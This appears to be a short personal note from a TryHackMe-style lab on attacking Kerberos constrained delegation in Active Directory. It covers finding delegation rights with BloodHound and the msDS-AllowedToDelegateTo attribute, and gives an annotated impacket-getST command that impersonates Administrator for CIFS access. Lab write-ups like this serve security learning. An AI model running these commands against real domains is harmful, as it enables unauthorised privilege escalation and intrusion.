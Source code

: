 => https://medium.com/r3d-buck3t/attacking-kerberos-constrained-delegations-4a0eddc5bb13
- We find a user having privs. for this **using bloodhound**
- ![[Pasted image 20250820012032.png]]
## Attack Steps
---
We start looking for the constrained delegation accounts by checking the **`msDS-AllowedToDelegateTo`** attribute in the accounts details. The attribute lists the services allowed for delegation

```bash
impacket-getST -spn 'cifs/HayStack.thm.corp' -impersonate 'Administrator' -altservice 'cifs' 'thm.corp/DARLA_WINTERS'

DARLA_WINTERS -> Our controlled account / we can give hash instead of pass as well
Impersonate -> Administrator
First CIFS -> Actual resource name, Second CIFS -> To alter/change
```